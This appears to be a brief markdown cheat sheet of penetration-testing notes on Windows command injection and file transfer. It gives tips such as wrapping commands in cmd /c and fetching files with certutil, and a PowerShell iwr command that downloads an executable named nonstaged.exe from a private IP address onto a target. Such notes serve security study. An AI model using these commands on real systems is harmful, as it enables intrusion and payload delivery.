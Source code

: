 # RCE / Command Injection
- If normal command execution doesn't work, try to use `cmd /c <your command here>`.
- You can add `certutil.exe` command without the name of the output file.
- You can add `certutil.exe` URL without single/double quotes.
- If you cannot run executables like whoami, systeminfo; then go to `C:\Windows\system32` folder to run this commands, because they may not be on our `PATH`.

# File Transfer
```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe
```
